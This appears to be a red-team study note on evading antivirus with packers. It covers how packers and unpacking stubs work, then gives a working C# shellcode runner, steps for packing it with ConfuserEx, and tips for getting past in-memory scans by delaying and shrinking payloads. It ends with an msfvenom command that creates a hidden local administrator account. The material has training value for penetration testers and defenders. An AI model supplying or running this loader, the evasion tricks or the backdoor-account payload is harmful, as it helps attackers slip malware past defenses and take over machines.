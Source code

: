 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/packers-against-disk-based-av-detection/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
This is one of the another way to defeat disk-based AV detection: It is a software that takes a program as input and transform it so the structure looks different while maintaining its function.

Why packers even exists?
- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.
#### Key Topics
---
- [[#Packers in Action|Understand how packers transform code and embed an unpacking stub to evade disk-based AV detection.]]
    
- [[#Packing C with ConfuserEx|Learn how to obfuscate and compress your C# payload using ConfuserEx to reduce AV detection.]]

## Packers in Action
---
The packing function is responsible for transforming or obfuscating the original code that can be **reasonably** reversed by an **unpacking** function -- while sometimes packers may add some code (to make debugging the application harder as an example), it should able to get back the original code you wrote when executing it.

![Evading Antivirus - Shellcode.png](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode.png)

To unpack the original code, the packer embed a code stub (small piece of code) that contains an unpacker and redirect the main entry point of the executable to it.

![Evading Antivirus - Shellcode-1.png|500](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-1.png)

- Though for example our malicious reverse shell is packed -- AV detection could still flag this if the **unpacker's code** has a known signature.
- If the Antivirus solution you are trying to bypass can do in-memory scans, it might still be detected afer your code is unpacked.
#### Packing C# with ConfuserEx
---
The code:

```C#
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] { !!REPLACE_MEEEEE!!! };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The generated shellcode:

![Evading Antivirus - Shellcode-2.png|400](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-2.png)

```C
csc UnEncStagelessPayload.cs
```

Uploading the following:

![Evading Antivirus - Shellcode-3.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-3.png)

With ConfuserEx:

![Evading Antivirus - Shellcode-4.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-4.png)

1. Move to **settings** and then select your payload (the `.exe`) file.
2. Click the **'+'** button to add settings (will show true)
3. Then for packer (same window) choose compressor
4. Edit the **'true'** rule by clicking the pencil icon:

![Evading Antivirus - Shellcode-5.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-5.png)

Finally, go to **Protect** tab and hit **'Protect!'** then upload the following to the Antivirus:

![Evading Antivirus - Shellcode-6.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-6.png)

Things to know and try against AV in memory scanning:

- **Just wait a bit** after 5 minutes since in-memory scanning is very resource expensive most AV will scan for a while after your process starts but will eventually stop.
	- Spawn a shell then wait for 5 minutes.
	- Do absolutely nothing (malicious) for 5 minutes then spawn a shell.
	- **Much better** is combine both delay the executon of the malicious payload then wait before doing anything suspicious over the reverse shell.
- **User smaller payloads** instead of using a **large, full-featured payload** (like a reverse shell or Meterpreter session), you can use a **very small payload** that executes **just one command**, why?
	- AV engines are more likely to detect large, complex payloads or at least flags it.
	- Small payloads that just **run a single command** are simpler, and often **don’t contain obvious shellcode patterns**.
	- Basically less code = fewer suspicious indicators = less likely to trigger AV.

```C
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```





